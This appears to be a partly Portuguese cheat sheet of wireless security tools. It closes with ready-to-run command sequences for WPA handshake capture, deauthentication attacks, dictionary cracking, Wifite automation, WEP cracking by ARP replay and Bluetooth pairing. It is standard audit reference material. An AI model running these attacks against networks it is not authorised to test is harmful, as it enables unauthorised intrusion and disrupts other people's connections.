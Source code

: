  Wireless Security Tools

 WiFi Reconnaissance

 Aircrack-ng Suite
- airmon-ng: Monitor mode management
- airodump-ng: Packet capture and analysis
- aireplay-ng: Packet injection
- aircrack-ng: WEP/WPA cracking

 Kismet
- Wireless Network Detector: Detecção de redes wireless
- Packet Sniffer: Captura de pacotes
- Intrusion Detection: Detecção de intrusões

 Wifite
- Automated WiFi Auditing: Auditoria automática
- WEP/WPA/WPS Attacks: Ataques automatizados

 Bluetooth Security

 Bluez Tools
- hcitool: Bluetooth device scanning
- bluetoothctl: Bluetooth management
- l2ping: Bluetooth ping

 Bettercap
- Bluetooth Attacks: Ataques Bluetooth
- BLE Attacks: Bluetooth Low Energy

 WiFi Attacks

 WEP Attacks
- Fragmentation Attack: Ataque de fragmentação
- Chopped Attack: Ataque chopchop
- ARP Replay: Replay de ARP

 WPA/WPA2 Attacks
- Dictionary Attack: Ataque de dicionário
- Handshake Capture: Captura de handshake
- PMKID Attack: Ataque PMKID

 WPS Attacks
- Pixie Dust: Ataque Pixie Dust
- PIN Brute Force: Força bruta de PIN
- Reaver: Ferramenta WPS

 Wireless Monitoring

 Wireshark
- Packet Analysis: Análise de pacotes
- Protocol Dissection: Dissecação de protocolos
- Traffic Analysis: Análise de tráfego

 Horst
- Lightweight Monitor: Monitor leve
- Real-time Analysis: Análise em tempo real

 Scripts Úteis

 Aircrack-ng workflow
 1. Ativar monitor mode
airmon-ng start wlan0

 2. Descobrir redes
airodump-ng wlan0mon

 3. Capturar handshake
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w capture wlan0mon

 4. Deauth attack (noutra terminal)
aireplay-ng --deauth 10 -a AA:BB:CC:DD:EE:FF wlan0mon

 5. Crack WPA/WPA2
aircrack-ng -w /usr/share/wordlists/rockyou.txt capture-01.cap

 Wifite automated attack
wifite --wpa --dict /usr/share/wordlists/rockyou.txt

 WEP cracking
 1. Capture packets
airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wep wlan0mon

 2. ARP replay attack
aireplay-ng -3 -b AA:BB:CC:DD:EE:FF -h CLIENT_MAC wlan0mon

 3. Crack WEP
aircrack-ng wep-01.cap

 Bluetooth scanning
hcitool scan
bluetoothctl
scan on
pair MAC_ADDRESS

 Bettercap
bettercap -iface wlan0mon
wifi.recon on
wifi.show